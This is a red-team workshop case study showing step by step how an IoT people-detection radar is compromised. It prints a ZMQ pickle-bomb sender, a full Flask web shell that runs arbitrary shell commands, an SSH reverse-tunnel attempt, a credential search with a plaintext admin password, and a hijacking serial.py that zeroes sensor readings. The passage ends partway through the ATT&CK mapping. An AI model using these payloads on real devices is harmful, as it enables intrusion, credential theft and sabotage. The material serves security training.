





# IoT System Cyber Attack Case Study 02

### Python Deserialization Attack and Library Hijacking Attack


**Project Design Purpose**: The objective of this cyber attack case study is to develop a workshop that demonstrates how a red team attacker can permanently compromise a people detection radar IoT device. The attack path is achieved through a series of attacks, including traffic eavesdropping, data deserialization attacks, web shell attacks, remote command/code execution, and Python library hijacking attacks. This case study is intended for IoT and data security professional training, aiming to illustrate:

1. How an attacker can use a Python pickle bomb to remote execute malicious program via an IoT device's data transmission interface or channel.
2. How an attacker can bypass IoT user authorization through a web shell attack to access critical information.
3. How an attacker can disrupt the protected (read-only) IoT firmware functions without modifying the firmware files through a Library Hijacking Attack.

**Attacker Vector**: `Traffic Eavesdropping`, ` Deserialization Attacks`, `Remote Code Execution`,  `Library Hijacked Attacks`

**Matched MIRTE-CWD**: `CWE-78`, `CWE-502`, `CWE-434` `CWE-319`

**Mapped MITRE-ATT&CK-TTP**: `T1027`, `T1036`, `T1562.001`, `T1190`, `T1485`

Important: All the attack techniques and programs in this article are only for research purpose, please don't apply them on real world environment.  

```
# version:      v0.1.3
# Created:     	July 08, 2024
# Copyright:   	Copyright (c) 2024 LiuYuancheng
# License:     	MIT License
```

**Table of Contents**

[TOC]

------

### Introduction

This case study aims to demonstrate how a red team attacker can exploit vulnerabilities in an IoT device that deserializes untrusted ZMQ incoming data. The attacker constructs a Python pickle bomb malware to disguise a web shell attack program within a normal data stream, which is sent to the IoT device to bypass the authorization mechanism. The attacker then uses the web shell to steal secret information from the IoT device and gain access to the IoT admin page. Once the management page is accessed, the attacker exploits the configuration file update interface to implement a Python library hijacking attack, disrupting the IoT Xandar radar's readings. This article contents four sections:

1. Introduce the cyber attack scenario and the projects used to build the case study.
2. Provide background knowledge about the demo environment and attack techniques.
3. Present the attack design and demonstrate the detailed steps to implement the attack.
4. Match the vulnerabilities to MITRE CWE (Common Weakness Enumeration) and align the attack path with MITRE ATT&CK (Adversarial Tactics, Techniques, and Common Knowledge) for further development.

#### Sub Projects Introduction 

The attack demonstration will encompass four primary sub projects:

| Sub Project Name                                          | Function Description                                         | Project Link                                                 |
| --------------------------------------------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| Raspberry PI Xandar Kardian IoT People Count Radar        | Case study demo environment                                  | [> Sub Project Link](https://github.com/LiuYuancheng/Xandar_PPL_Sensor_IOT_Web) |
| Python pickle bomb builder for Deserialization Attacks    | The attack scripts and tool to build and implement deserialization attack | [> Sub Project Link](https://github.com/LiuYuancheng/Python_Malwares_Repo/tree/main/src/pickleBomb) |
| Flask web shell for Remote Code/Command Execution Attacks | Web shell attack script to do the remote command execution attack | [> Sub Project Link](https://github.com/LiuYuancheng/Python_Malwares_Repo/tree/main/src/flaskWebShell) |
| Python Serial COM Library Hijacking Attack                | Script to do the Raspberry PI serial communication library hijacking attack | [> Sub Project Link](https://github.com/LiuYuancheng/IT_OT_IoT_Cyber_Security_Workshop/tree/main/IoT_System_Attack_Case_Study/IoT_Attack_Case_Study_02/src) |

#### Attack Scenario Introduction

In this case study, the attack target is a simple IoT people detection radar. This IoT device provides a web interface for software engineers or network admins to change its settings and manage data access permission. Users need valid credentials (username and password) to login to the IoT configuration web page. Additionally, other programs that attempt to access the IoT data also require a valid access token, which is generated based on the username and password. The IoT device also features a ZMQ server that provides basic, non-critical IoT network configuration information, such as IP address and port details, allowing network admins to easily locate the IoT device in the network using an IoT search program.

During the attack, the red team attacker collects network traffic and discovers that the IoT search data packets include serialized data using the Python `pickle` library. After understanding the protocol, the attacker follows these below steps to implement the attack path:

1. Build a ZMQ client program for the IoT ZMQ connection interface communication.
2. Develop a single-file Flask web shell program that can be executed independently for remote command execution and privilege escalation.
3. Create a Python pickle bomb to hide the web shell attack program within normal bytes data stream.
4. Use the ZMQ client program to send the pickle bomb as data to the IoT device.
5. Once the pickle bomb web shell is activated, search for credentials and bypass the IoT user authorization mechanism.
6. The attacker login the IoT device as an admin and discovers a web API that allows the upload of `*.txt` format configuration files. The attacker then disguises a fake serial port communication library hijacking program as a configuration file and uploads it to the IoT device.
7. The attacker replaces the legitimate library file with the hijacking library file and restarts the IoT device. Upon successful completion, all data readings are altered to zero.

This attack path can also be used to explain and introduce similar common vulnerabilities and exploits such as CVE-2011-3389, CVE-2019-5021, CVE-2018-1000802, CVE-2019-9636, and CVE-2019-20907, as well as mitigations to avoid deserialization attacks.


------

### Background Knowledge

Within this section, we aim to provide fundamental, general knowledge about each respective system and elucidate the Tactics, Techniques, and Procedures (TTP) associated with the attack vectors. If you understand what's Python Deserialization Attack, Web shell attack and Python Package Hijacking Attack, you can skip this section. 

#### Python Deserialization Attack

A deserialization attack occurs when an application deserializes untrusted or maliciously crafted data, leading to potential security vulnerabilities. These attacks can result in various forms of exploitation, including arbitrary code execution, data corruption, and denial of service. The vulnerability arises because the deserialization process often assumes that the incoming data is well-formed and trustworthy. For the detail Python Deserialization Attack example, you can refer to the detail of previous Python Deserialization Attack Introduction section: 

https://www.linkedin.com/pulse/python-deserialization-attack-how-build-pickle-bomb-yuancheng-liu-wi7oc/?trackingId=uW8zRHQfTd6VbKZ7MV41rg%3D%3D

#### Python Package Hijacking Attack

Python Package Hijacking, also known as Dependency Confusion or Dependency Hijacking, is a type of attack where an attacker exploits the way Python and its package management systems resolve and import modules. This attack can cause a Python application to import and execute malicious code instead of the intended, legitimate code. 

The attack leverages the search order of the Python interpreter or the package manager (like `pip`) when resolving dependencies. Python resolves imports by searching through directories listed in `sys.path` in order, starting from the current directory and moving to the system-wide libraries. Similarly, `pip` resolves package dependencies by searching through specified repositories. Normally there are 2 types of Hijacking Attack: 

- **Local File Hijacking**: An attacker places a malicious file in the local directory with the same name as a standard library module or a legitimate dependency. The program imports this local malicious file instead of the legitimate one due to Python's import resolution order.
- **Repository Hijacking**: The attacker publishes a package with the same name as an internal or private package to a public repository like PyPI. If the internal package is not properly scoped or name spaced, the public malicious package may be installed instead.

This  is a simple example scenario of Python local file hijacking attack:

Legitimate Program:

```
import random
print(random.randint(1, 10))
```

Malicious `random.py` File:

```
# Malicious code
print("Malicious random module imported!")
def randint(a, b):
    return 42  # Always return 42, or perform some malicious action
```

Python Package Hijacking is a critical security vulnerability that can lead to significant consequences if exploited. By understanding the mechanics of this attack and implementing robust security measures, developers can protect their applications and systems from such threats. Proper dependency management, secure coding practices, and regular code audits are essential steps in mitigating the risks associated with Python Package Hijacking.

#### Python Web Shell Attack 

A web shell attack script is a malicious script that is uploaded to a web server to provide an attacker with remote access and control over the server. Web shells are typically used by attackers to execute arbitrary commands, steal data, modify files, and perform other malicious activities on the compromised server. These scripts can be written in various programming languages commonly used in web development, such as PHP, ASP, JSP, and Python. The attack flow will follow below sequence:

1. **Initial Compromise**: The attacker exploits a vulnerability in the web application or server, such as an insecure file upload function, a code injection vulnerability, or a weak password, to upload the web shell script.
2. **Upload and Execution**: Once the web shell is uploaded, the attacker accesses it via a web browser or a specialized client. The web shell script is executed on the server, giving the attacker an interface to interact with the server.
3. **Remote Control**: The attacker uses the web shell to execute commands on the server, upload or download files, steal sensitive information, escalate privileges, and potentially use the compromised server to launch further attacks.

Web shell attack scripts are powerful tools used by attackers to gain remote control over web servers. Understanding how these scripts work and implementing robust security measures can help protect web applications and servers from such attacks. By securing file uploads, validating inputs, and maintaining vigilant monitoring, organizations can mitigate the risks associated with web shell attacks.


------

### IoT Cyber Attack Design 

This section will introduce the design of the cyber attack path and the design of the attack tools used in the attack path. 

#### Design of Attack Path

The red team attacker will follow 11 attack steps sequence to impalement attack (As shown below) :



` Figure-00: IoT attack flow path detail steps diagram, version v1.3 (2024)`

| Step Num | Name                                                         | Description                                                  |
| -------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| 1        | Traffic Eavesdropping and Packet Analysis                    | Use `Ettercap` to eavesdrop on the traffic between the IoT device and the engineer's IoT allocate program. Then, use `Wireshark` to analyze the traffic packets and identify potential vulnerabilities. |
| 2        | Build Web Shell Pickle Bomb                                  | Use the pickle bomb builder to disguise a Flask web shell attack script as a bytes data file. |
| 3        | Inject Bomb as Data Stream                                   | Inject the pickle bomb as a normal data stream to the IoT device via the IoT ZMQ communication channel. |
| 4        | Activate the Bomb                                            | When the IoT device deserializes the incoming data, the pickle bomb is activated, creating a backdoor web shell interface on IoT port 5001, awaiting the attacker's instructions. |
| 5        | Remote Command Execution                                     | The attacker connects to the Flask web shell interface and sends a command execution request. |
| 6        | Steal Secret Information                                     | After trying several commands, the attacker locates the user database file, identifies the Python library used by the IoT firmware, and obtains the IoT admin user's credentials. |
| 7        | Build Attack Hijacking Library File                          | Based on the stolen information, the attacker creates a fake serial communication library file for the hijacking attack. |
| 8        | Disguise Attack Library File                                 | Disguise the attack lib hijacking script as a normal configuration file to bypass the IoT file validation mechanism. |
| 9        | Upload the Disguised Attack Script via IoT Web UI            | Inject the attack hijacking library into the IoT device's storage using the leaked IoT admin credentials via the IoT web interface. |
| 10       | Fake COM Reading Library Interrupts Radar Data Reading Process | Once activated, the IoT firmware will call the fake serial port reading library's function, causing it to generate erroneous data for the IoT firmware. |
| 11       | Reply Error IoT Data to the User                             | The error data will be shown in the IoT control hub which visible to the IoT users. |

#### Design of Python Pickle Bomb

Please refer this document for the pickle bomb design: https://www.linkedin.com/pulse/python-deserialization-attack-how-build-pickle-bomb-yuancheng-liu-wi7oc/?trackingId=To8EkNvRTeeOsHEDVl%2FdQA%3D%3D

#### Design of Flask Web Shell Attack Script

We use the Python Flask framework to build the web host portal. To facilitate easy injection into the victim's system, the HTML page is integrated directly into the Python program. The web page provides a text field for the user to input the command they want to execute. After pressing the run button, the execution result will be automatically updated on the page. The page update uses a Socket.IO publish-subscribe design.

The work flow is shown below:


` Figure-01: Flask web shell attack script work flow UML diagram, version v1.3 (2024)`


------

### IoT Cyber Attack Demo 

In this section we will demo the eleven detail attack steps under three categories:  Understand the Traffic and Find Vulnerabilities, Building Pickle Bomb for Deserialization Attacks, Bypass IoT Authorization and Implement Local File Hijacking Attack, then show the attack effect of the IoT device.


#### Understand the Traffic and Find Vulnerabilities

The red team attacker captures about 10 minutes of IoT traffic, including the communication between the network engineer and the IoT device. Upon analyzing the network traffic dump `pcap` file, the attacker identifies two types of protocols are used to connect the IoT device: ZMQ for locating the IoT and HTTP for monitoring and controlling it.

**IoT Supported Protocol 1: ZMQ Connection**

Using Wireshark to examine the network traffic dump file, the attacker discovers a protocols set using `TCP` > `RSL` > `TCP` communication on port 3003. After analyzing the headers, the attacker recognizes that the communication matches the ZMQ communication structure and sequence (refer to the ZMQ communication packet structure and sequence document: https://zguide.zeromq.org/docs/chapter7/).

ZMQ supports three types of communication: server-client, publish-subscribe, and push-pull. By examining the TCP and RSL sequences, the attacker deduces that the communication between the IoT device and the peer follows a request-response sequence, indicating a ZMQ server-client module with the IoT device acting as the server.

Upon analyzing the bytes sent to the ZMQ server, the attacker finds that the message is not UTF-8 or Base64 encoded data. Further analysis reveals that the data is serialized using the Python `pickle` library, which presents a potential vulnerability for deserialization attacks.(As shown below)


` Figure-02: Wireshark network pcap analysis result, version v1.3 (2024)`

Then, the attacker writes a simple ZMQ client program to perform a reply attack by repeatedly sending the packet collected from the traffic dump file back to the IoT device and receiving the same byte data as shown below:


` Figure-03: ZMQ client reply attack result screen shot, version v1.3 (2024)`

Using the decoded text data shown in Wireshark, the attacker maps the text data to the corresponding bytes, as illustrated below:


` Figure-04: ZMQ communication bytes and text data mapping result, version v1.3 (2024)`

After mapping the text data and byte stream, the attacker confirms the basic IoT communication mechanism:

1. The IoT search program uses a ZMQ client to send pickle dumped dictionary-type data with key strings representing IoT configurations.

2. The IoT search program's ZMQ client will wait for the IoT device to reply with the corresponding values based on the sent key strings.

The attacker creates a ZMQ client program capable of sending data and decoding the fetched data from the IoT device, as shown below:

```python
import zmq
import pickle
iotIP = '172.23.155.209'
port = 3003

context = zmq.Context()
print("Connecting to server...")
socket = context.socket(zmq.REQ)
socket.connect("tcp://%s:%s" %(iotIP,port))
print("Sending request btyes via ZMQ client:")
configData = {
    'TEST_MD': None , 
    'RADAR_TYPE':None,
    'RADAR_PORT': None,
    'RADAR_UPDATE_INTERVAL': None,
    'RPT_MD': None,
    'RPT_INT': None,
    'RPT_SER_IP': None,
    'RPT_SER_PORT': None,
    'WEB_PORT': None
}
pickledata = pickle.dumps(configData, protocol=pickle.HIGHEST_PROTOCOL)
print(str(pickledata))
socket.send(pickledata)
#  Get the reply.
replyData = socket.recv()
print("received reply bytes:")
print(str(replyData))
reqDict = pickle.loads(replyData)
print ("Received reply: \n %s" %str(reqDict))
```

The execution shows that the attacker can retrieve the IoT configuration information and, using the `pickle.loads` function, can determine that the web port is 5000 (as shown below).


` Figure-05: IoT response pickle.loads() decode result, version v1.3 (2024)`

> Note: The attacker could also use Nmap to probe all services on the IoT device, but this might be detected by network threat detection programs.

You can download the pcap example package file from this link: https://github.com/LiuYuancheng/Xandar_PPL_Sensor_IOT_Web/blob/master/resource/ZMQ_package_example.pcapng


**IoT Supported Protocol 2: HTTP Connection** 

In the previous step, the attacker identified that the IoT device uses port 5000 for HTTP connections. By accessing the IoT web interface at `http://172.23.155.209:5000/`, the attacker reaches the IoT home page:


However, the attacker is blocked by the user login authorization page as they do not have a valid account to access further information:


Despite attempting a dictionary attack, the attacker finds that there is a user named "admin" but does not know the password.

**Summary of Vulnerabilities** 

After performing a network analysis, the attacker identifies two potential vulnerabilities:

1. The IoT ZMQ channel uses pickle to serialize the data, presenting an opportunity to create a pickle bomb for a Python deserialization attack.
2. There is a user named "admin" who can log in to the IoT's management page, but the attacker needs to find a way to bypass the authorization.


#### Building Pickle Bomb for Deserialization Attacks

Based on the first vulnerability, the attacker aims to create a Pickle Bomb to exploit the ZMQ server. For reference, you can follow this project to build a UDP command executor: [Pickle Bomb Project](https://github.com/LiuYuancheng/Python_Malwares_Repo/tree/main/src/pickleBomb). In this section, we provide an alternative and simpler solution by creating a web shell capable of executing commands on the IoT device.

We use Flask to build the web shell program, and for data feedback, we use Socket.IO to dynamically update the command execution results on the web page. Since port 5000 is used by the IoT management web host, our web shell will use port 5001. Additionally, to serialize the program into a single Pickle Bomb, the HTML page is assembled as a pure text string within the web shell program:

```python
# The all in one version of the flask web shell which remove all the comments 
import subprocess
from flask import Flask, request
from flask_socketio import SocketIO, emit # pip install Flask-SocketIO==5.3.5
gflaskPort = 5001

HTML_CONTENT = """<!doctype html>
<html>
    <head>
        <!-- Required meta tags -->
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
        <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.2/dist/css/bootstrap.min.css" rel="stylesheet">
        <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.3.2/dist/js/bootstrap.bundle.min.js"></script>
        <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
        <script src="https://cdnjs.cloudflare.com/ajax/libs/socket.io/3.0.4/socket.io.js"></script>
        <title> Flask Web Shell </title>
    </head>
    <body>
        <h1> Flask Simple Web Shell </h1>
        <hr>
        <p> Input the command you want to execute on victim: </p>
        <form>
            <textarea class="form-control" style="font-family: monospace;" rows="1" id="cmdContents" name="cmdContents"></textarea>
            <button type="submit"> Rum cmd </button>
        </form>
        <hr>
        <p> Command execution result: </p>
        <form>
            <div id="cmdresult" style="display: block">
                <textarea class="form-control" style="font-family: monospace;" rows="10" id="resultContents" name="resultContents", value=""></textarea>
            </div>
        </form>
        <script>
            $(document).ready(function() {
                $('form').submit(function(event) {
                    event.preventDefault();
                    $.ajax({
                        type: 'POST',
                        url: '/cmdsubmit',
                        data: $('form').serialize(),
                    });
                });
                var socket = io();
                socket.on('connect', function () {
                    socket.emit('cli_request', { data:  'connected!' });
                });
                socket.on('exeResult', function (msg) {
                    console.log(msg.data);
                    document.getElementById('resultContents').innerHTML = msg.data
                });
            });
         </script>
    </body>
</html>
"""

app = Flask(__name__)
socketio = SocketIO(app)

@app.route('/')
def index():
    """ route to introduction index page."""
    return HTML_CONTENT

@app.route('/cmdsubmit', methods=['POST','GET'])
def cmdsubmit():
    """ Run the command the feed back the data to web."""
    cmd = request.form['cmdContents']
    cmd = cmd.strip()
    result = None 
    try:
        result = subprocess.check_output(cmd, shell=True).decode()
    except Exception as err:
        result = str(err)
    socketio.emit('exeResult', {'data': str(result)})
    return 'Command execution finished'

@socketio.event
def connect():
    emit('serv_response', {'data': 'web shell ready'})

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=gflaskPort, debug=False, threaded=True)
```

To download the full code of the web shell, please refer to this repo: https://github.com/LiuYuancheng/Python_Malwares_Repo/tree/main/src/flaskWebShell

After finished the web shell attack scrip, we need to build a Pickle bomb and send to the IoT's ZMQ server. You can use this [Pickle Bomb Builder](https://github.com/LiuYuancheng/Python_Malwares_Repo/blob/main/src/pickleBomb/pickleBombBuilder.py) program, here we combine the builder and data sender together:

```python
iotIP = '172.23.155.209'
port = 3003

context = zmq.Context()
print("Connecting to server...")
socket = context.socket(zmq.REQ)
#socket.connect ("tcp://localhost:%s" % port)
socket.connect("tcp://%s:%s" %(iotIP,port))
print("Sending request btyes via ZMQ client:")

fileNameStr = 'flaskWebShellApp.py'
obj = None
try:
    with open(fileNameStr, 'r') as fh:
        dataStr = fh.read()
    obj = PickleCodeBomb()
except Exception as err:
    print("Error: can not read python file %s" % err)
    exit()
pickledata = pickle.dumps(obj, protocol=pickle.HIGHEST_PROTOCOL)
socket.send(pickledata)
#  Get the reply.
replyData = socket.recv()
print("received reply bytes:")
print(str(replyData))
reqDict = pickle.loads(replyData)
print ("Received reply: \n %s" %str(reqDict))
```

After running the sender program to send the web shell pickle bomb as a data string to the IoT device, we can open the URL: `http://172.23.155.209:5001/`. The attack web shell appears as shown below, indicating that we have successfully activated the bomb and compromised the IoT device.

Now, let's try some commands to navigate to the IoT firmware folder and list the files information:


The deserialization attack was successful.


#### Bypass IoT Authorization and Implement Local File Hijacking Attack

Having successfully executed commands on the IoT device, the next step the attacker want to try is to create a reverse shell or transfer files using SCP. Let's first attempt the reverse shell command:

```
ssh -R 0.0.0.0:7070:localhost:22 172.23.155.1
```

However, we find that the SSH client is not installed, as shown by the error message below. This means we cannot use a reverse shell or SCP to transfer files to the IoT device:


Then the attacker want to try whether he can use command-line commands to modify the firmware for the attack. Based on the file permission configuration shown below, only the configuration file is writable; all firmware files are read-only and executable:


Based on the second vulnerability, the attacker searches for data related to the string "admin" using the command:

```
grep "admin" Xandar_Sensor_Web/src/*
```

This reveals a JSON file named `users.json` that contains the "admin" username as shown below :


By viewing the contents of the `Xandar_Sensor_Web/src/users.json` file:



The attacker finds the long password for the "admin" user:

```
7kylHS@n3pEGgS$M&HYJmRf4A!a*xfdZADAG^HWDYx#tSBkjcW
```

Using this password, the attacker can log in to the IoT admin page:


From here, we can view the radar detection results, manage radar users, and fetch data from the radar (as shown below). 


However, while we cannot modify the firmware, the admin can fix the attack by reset IoT settings.  Is there a way to permanently compromise the IoT device?

Exploring all the pages, the attacker finally finds a place to upload text format configuration files from web UI to IoT storage, with the file name required to be `Config_xxx.txt`:


By examining the radar serial communication firmware module, it is found that it uses the Python serial library to read data from the people detection radar:



The serial communication is initialized with this code:

```
self.serComm = serial.Serial(self.serialPort, 115200, 8, 'N', 1, timeout=1)
```

The `Serial.read()` function is used to read data from the radar. Then the attacker then creates a fake serial library for a local file hijacking attack. The `serial.py` file contains the following contents:

```
from struct import pack

class Serial(object):

    def __init__(self, port, bandwidth, bitNumber, parity, stopBit, timeout=1) -> None:
        pass

    def read(self, data):
        dataByte = b''
        for _ in range(2):
            data = self.dataHeader + pack('i', int(0)) + pack('i', 34)
            for _ in range(35):
                data += pack('f', round(0), 2)
            dataByte += data
        return dataByte
    
    def close(self):
        pass
```

The attacker renames this fake serial library to `Config_new.txt` and uploads it to the IoT via the web portal. Using the web shell, we can see that the fake config file is accepted by the IoT device:

Finally, the attacker renames the file from the web shell with the command:

```
mv Xandar_Sensor_Web/src/Config_new.txt Xandar_Sensor_Web/src/serial.py
```

Now the local hijacking attack lib file is ready for import by the firmware:



The library hijacking attack is now complete.


#### Show the IoT Attack Effect

With the configuration unchanged and the fake serial communication module hijacked in the IoT device, the firmware will import the attacker's library during execution:


After restarting the IoT device, the network admin will see the following situation upon logging in:


The radar connection indicator shows that the radar is connected normally, but all readings have dropped to zero. Upon checking, all readings display a value of 0:


Regardless of whether the IoT engineer reboots the IoT OS or resets the configuration file, the problem persists. The IoT device is now permanently compromised! 


------

### MITRE CWE Matching and ATT&CK Mapping

#### MITRE CWE(Common Weakness Enumeration) Matching

**CWE-78**

- **CWE Name**: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')
- **Matched Vulnerability**: The attacker is able to execute remote commands and achieve privilege escalation by exploiting a web shell program that is executed on the IoT device.

**CWE-502**

- **CWE Name**: Deserialization of Untrusted Data
- **Matched Vulnerability**: The attacker is able to hide a web shell attack program within a normal data stream by using a Python pickle bomb. This allows the attacker to bypass the IoT user authorization mechanism and gain unauthorized access to the device.

**CWE-434**

- **CWE Name**: Unrestricted Upload of File with Dangerous Type
- **Matched Vulnerability**: The attacker is able to upload a fake serial port library hijacking program disguised as a configuration file to the IoT device. This allows the attacker to replace the legitimate library file and alter all data readings to zero.

**CWE-319**

- **CWE Name**: Cleartext Transmission of Sensitive Information

- **Matched Vulnerability**: The IoT device's web interface and other programs that access the IoT data transmit credentials and access tokens in cleartext, making them susceptible to interception and unauthorized access.

  

#### MITRE ATT&CK (Adversarial Tactics, Techniques, and Common Knowledge) Mapping


**T1027 - Obfuscated Files or Information ** 

- **Tactic**: Defense Evasion
